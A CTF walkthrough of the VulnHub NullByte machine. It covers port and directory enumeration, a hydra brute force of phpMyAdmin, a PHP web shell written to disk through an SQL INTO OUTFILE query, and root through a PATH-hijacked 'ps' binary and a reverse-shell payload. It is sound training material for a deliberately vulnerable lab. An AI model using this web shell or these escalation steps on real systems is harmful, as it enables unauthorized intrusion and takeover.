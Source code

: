 ```yaml
---
layout: page
title: VulnHub - NullByte
description: Walkthrough - NullByte
dropdown: Walkthroughs
priority: 1
---
```

## VM Description

This CTF is one of the recommended machines for those preparing for the OSCP exam. It has basic to intermediate difficulty. The objectif is to get the proof.txt flag in the root directory. 

Download: [Nullbyte](https://www.vulnhub.com/entry/nullbyte-1,126/)

Author: [Ly0n](https://www.vulnhub.com/author/ly0n,153/)

## Enumeration

We configure the VM in bridge mode. In order to determine its assigned IP, we run the below command:

```console
$arp-scan -I wlan0 -l 
```

#### Service Enumeration

```console
$nmap -sV -sC -p- -oA nmap/nmap 192.168.1.142
```

<div class="row">
  <div class="col-md-6">
    <table class="table table-bordered">
      <thead>
        <tr>
          <th>Open port</th>
          <th>Service</th>
          <th>Version</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <td>80</td>
          <td> http </td>
          <td>Apache httpd 2.4.10</td>
        
        </tr>
        <tr>
         <td> 111 </td>
          <td> rpcbind </td>
          <td> 2-4 </td>
        </tr>

 	<tr>
         <td> 777 </td>
          <td> SSH </td>
          <td> OpenSSH 6.7p1</td>
        </tr>

       </tbody>
    </table>
  </div>
</div>


#### Web Server Directory Enumeration 

Let's use Gobuster to enumerate the web server's directories. 

```console
$gobuster dir -u http://192.168.1.142 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x .php,.txt -o dirbuster-80.out
```

Gobuster returns the following directories: 
uploads, javascript, phpmyadmin and server-status. 

Let's check phpmyadmin as it's the most promising. 

![phpmyadmin](../assets/img/Walkthroughs/NullByte/1.png)

Default database credentials such as root:root do not work. We can either look for credentials by further enumerating available services or try to brute force the application. 

In order to save time, let's run [hydra](https://tools.kali.org/password-attacks/hydra) in the background as this process may take some time. We will use root as username and the most popular password list in Kali named [rockyou.txt](https://github.com/praetorian-code/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) and located under /usr/share/wordlists.

Before running hydra, we need to remove empty passwords from the list as they result in a different error message which will stop the search (false positive).  

![Hydra](../assets/img/Walkthroughs/NullByte/2.png)

Quickly enough, hydra found the database password *sunnyvale*. Awesome :) 

## Exploit

There are two ways to obtain a low privilege shell. The first method is to upload a php reverse shell via the mysql database and access it from the web server. The second way is to decode Ramses user password and connect to the target via SSH. 

#### 1st method to obtain a reverse shell

In order to upload a php reverse shell to the target via phpmyadmin; we need to:

1. Create a new database

2. Create a new table in the database.

3. Click on the created database to construct an SQL query:

[SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"]

4. Visit target/backdoor.php and provide a cmd as a GET parameter. 

This [post](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) in hackingaritcles.in describes the above steps in a more detailed manner.  

![new database](../assets/img/Walkthroughs/NullByte/8.png)

![new table](../assets/img/Walkthroughs/NullByte/3.png)

![shell1](../assets/img/Walkthroughs/NullByte/4.png)

Based on the error message, it seems that we do not have enough permissions to write to /var/www/html. This is where a good enumeration comes in handy. Since Gobuster returned that uploads is a valid directory; let's see if we can upload our PHP code there. 

![reverse shell in uploads](../assets/img/Walkthroughs/NullByte/5.png)

Great. The command executed successfully. Let's see if we have code execution. 

![command execution](../assets/img/Walkthroughs/NullByte/6.png)

Awesome. You can now execute a reverse shell one liner. Check the [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) posted by pentestmonkey. 

#### 2nd method to obtain root

Under Seth database, we find user ramses base64 encoded password. The decoded output is an MD5 hash based on the characters count. We search for the password in [Crackstation](https://crackstation.net/); a free password hash cracker. 

![passwords](../assets/img/Walkthroughs/NullByte/7.png)

![base64 decode](../assets/img/Walkthroughs/NullByte/9.png)

![counts](../assets/img/Walkthroughs/NullByte/10.png)

![crackstation](../assets/img/Walkthroughs/NullByte/11.png)

User's Ramses password is omega. Great. Now we can connect to the target as this user. 

![ssh as ramses](../assets/img/Walkthroughs/NullByte/12.png)

## Privilege Escalation

We can read user's Ramses bash history. 

![history file](../assets/img/Walkthroughs/NullByte/13.png)


There seems to be an interesting binary under /var/www/backup. Let's check it. 

![proc watch suid](../assets/img/Walkthroughs/NullByte/14.png)

The program has the suid bit. Excellent. Let's understand what it does by executing it. 

![executing ps](../assets/img/Walkthroughs/NullByte/15.png)

Once we run it, we see that it execute ps binary. 

<div class="panel panel-info">
      <div class="panel-heading">
        <h3 class="panel-title">Tip:</h3>
      </div>
      <div class="panel-body">
  If a binary does not return any data and you'd like to know what it does exactly, before resulting to reverse engineering, run <a href="https://github.com/DominicBreuker/pspy">pspy</a> in the background and then run the binary. It should give you a solid idea of what is going on.  
      </div>
    </div>

Since the user did not indicate a full path to ps binary (/usr/bin/ps); We can exploit this to our advantage by putting a malicious executable in /tmp named ps and modifying the PATH variable to include /tmp. Therefore, the next time we will run Procyon, it will search for the ps binary in the /tmp folder as indicated by the PATH variable and execute our exploit as root. 

```console
$echo /bin/sh >ps
$chmod +x ps
$/var/www/backup/procwatch
```

![root1](../assets/img/Walkthroughs/NullByte/16.png)

We can also create a reverse shell with Metasploit and name it ps. You will need to add PrependSetuid=True otherwise it will not execute with root privileges. 

![msfvenom payload](../assets/img/Walkthroughs/NullByte/17.png)

![uploading to tmp](../assets/img/Walkthroughs/NullByte/18.png)

Now we need to modify the path variable to include the /tmp directory.


```console
$PATH=/tmp:$PATH
```

![path update](../assets/img/Walkthroughs/NullByte/20.png)

![reverse shell](../assets/img/Walkthroughs/NullByte/19.png)

Now we have root shell. Awesome :) Let's read the flag. 

![flag](../assets/img/Walkthroughs/NullByte/21.png)
